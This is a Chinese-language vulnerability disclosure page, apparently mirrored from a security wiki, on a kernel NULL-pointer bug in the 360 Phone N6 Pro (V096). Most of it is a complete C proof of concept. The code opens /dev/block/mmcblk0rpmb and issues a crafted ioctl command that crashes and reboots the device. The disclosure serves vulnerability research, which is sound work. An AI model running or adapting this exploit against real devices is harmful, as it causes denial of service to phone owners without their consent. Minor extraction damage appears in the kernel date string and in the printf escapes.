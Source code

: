 # 360 Phone N6 Pro 内核漏洞

> 原文：[http://book.iwonder.run/iot/360/360 Phone N6 Pro.html](http://book.iwonder.run/iot/360/360 Phone N6 Pro.html)

## 一、漏洞简介

360 Phone N6 Pro V096 内核组件中的内核模块允许攻击者使用命令**3235427072**在设备/ dev / block / mmcblk0rpmb 上通过 ioctl 的自变量注入精心设计的自变量，并导致内核崩溃。

## 二、漏洞影响

*   名称：360 Phone N6 Pro
*   型号：1801-A01
*   安卓版本：7.1.1
*   版本号：V096
*   内核版本：Linux localhost 4.4.21-perf＃1 SMP PREEMPT Wed Mar 28 28 15:24:20 UTC 2018 aarch64

## 三、复现过程

### poc

```
/*
* This is poc of 360 N6 Pro, 1801-A01
* Android Version: 7.1.1
* Version Number: V096
* Kernel Version: Linux localhost 4.4.21-perf #1 SMP PREEMPT Wed Mar 28 15:24:20 UTC 2018 aarch64
* A NULL pointer bug in the ioctl interface of device file /dev/block/mmcblk0rpmb causes the system crash via IOCTL 3235427072.
* This Poc should run with permission to do ioctl on /dev/block/mmcblk0rpmb.
*/
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/ioctl.h>

const static char *driver = "/dev/block/mmcblk0rpmb";
static command = 3235427072; // 0xc0d8b300

int main(int argc, char **argv, char **env) {
int fd = 0;
fd = open(driver, O_RDWR);
if (fd < 0) {
printf("Failed to open %s, with errno %dn", driver, errno);
system("echo 1 > /data/local/tmp/log");
return -1;
}

printf("Try ioctl device file '%s', with command 0x%x and payload NULLn", driver, command);
printf("System will crash and reboot.n");
if(ioctl(fd, command, NULL) < 0) {
printf("Allocation of structs failed, %dn", errno);
system("echo 2 > /data/local/tmp/log");
return -1;
}
close(fd);
return 0;
} 
```

